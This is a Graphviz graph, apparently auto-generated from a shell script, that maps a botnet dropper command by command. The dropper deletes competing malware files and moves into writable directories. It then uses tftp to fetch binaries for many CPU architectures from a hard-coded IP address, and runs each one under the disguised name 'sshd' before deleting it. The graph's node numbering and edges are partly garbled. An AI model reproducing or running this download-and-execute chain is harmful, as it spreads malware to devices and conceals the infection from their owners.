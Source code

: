 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="rm -fr jik* "];
2 -> 2
4 [label="rm -fr gtop.sh gtopb1.sh gtopb2.sh gtopb3.sh gtopb4.sh ftp.sh ftp0.sh ftpb1.sh ftpb2.sh ftpb3.sh ftpb4.sh tftpb1.sh tftpb2.sh ttftp1b1.sh ttftpb2.sh tttftp1b1.sh tttftp7.sh ftpm0.sh "];
4 -> 4
6 [label="rm -fr jackmy* poundmy* rapemy* smokemy* kekmy* breakmy* "];
6 -> 6
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 22 [label="||,"];
22 [label="tftp -r jikmips -g 146.185.129.74 "];
22 -> 24 [label=";,"];
24 [label="cat jikmips sshd "];
24 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 50 [label="||,"];
50 [label="tftp -r jikmips64 -g 146.185.129.74 "];
50 -> 52 [label=";,"];
52 [label="cat jikmips64 sshd "];
52 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 78 [label="||,"];
78 [label="tftp -r jikmipsel -g 146.185.129.74 "];
78 -> 80 [label=";,"];
80 [label="cat jikmipsel sshd "];
80 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 106 [label="||,"];
106 [label="tftp -r jiksh2eb -g 146.185.129.74 "];
106 -> 108 [label=";,"];
108 [label="cat jiksh2eb sshd "];
108 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 134 [label="||,"];
134 [label="tftp -r jiksh2elf -g 146.185.129.74 "];
134 -> 136 [label=";,"];
136 [label="cat jiksh2elf sshd "];
136 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 162 [label="||,"];
162 [label="tftp -r jiksh4 -g 146.185.129.74 "];
162 -> 164 [label=";,"];
164 [label="cat jiksh4 sshd "];
164 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 190 [label="||,"];
190 [label="tftp -r jikx86 -g 146.185.129.74 "];
190 -> 192 [label=";,"];
192 [label="cat jikx86 sshd "];
192 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 218 [label="||,"];
218 [label="tftp -r jiki486 -g 146.185.129.74 "];
218 -> 220 [label=";,"];
220 [label="cat jiki486 sshd "];
220 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 246 [label="||,"];
246 [label="tftp -r jiki586 -g 146.185.129.74 "];
246 -> 248 [label=";,"];
248 [label="cat jiki586 sshd "];
248 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 274 [label="||,"];
274 [label="tftp -r jiki686 -g 146.185.129.74 "];
274 -> 276 [label=";,"];
276 [label="cat jiki686 sshd "];
276 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 302 [label="||,"];
302 [label="tftp -r jikpowerpc -g 146.185.129.74 "];
302 -> 304 [label=";,"];
304 [label="cat jikpowerpc sshd "];
304 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 330 [label="||,"];
330 [label="tftp -r jikpowerpc440fp -g 146.185.129.74 "];
330 -> 332 [label=";,"];
332 [label="cat jikpowerpc440fp sshd "];
332 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 358 [label="||,"];
358 [label="tftp -r jikm86k -g 146.185.129.74 "];
358 -> 360 [label=";,"];
360 [label="cat jikm86k sshd "];
360 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 386 [label="||,"];
386 [label="tftp -r jiksparc -g 146.185.129.74 "];
386 -> 388 [label=";,"];
388 [label="cat jiksparc sshd "];
388 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 414 [label="||,"];
414 [label="tftp -r jikarmv4 -g 146.185.129.74 "];
414 -> 416 [label=";,"];
416 [label="cat jikarmv4 sshd "];
416 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 442 [label="||,"];
442 [label="tftp -r jikarmv4tl -g 146.185.129.74 "];
442 -> 444 [label=";,"];
444 [label="cat jikarmv4tl sshd "];
444 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 470 [label="||,"];
470 [label="tftp -r jikarmv5 -g 146.185.129.74 "];
470 -> 472 [label=";,"];
472 [label="cat jikarmv5 sshd "];
472 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 498 [label="||,"];
498 [label="tftp -r jikarmv6 -g 146.185.129.74 "];
498 -> 500 [label=";,"];
500 [label="cat jikarmv6 sshd "];
500 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
}

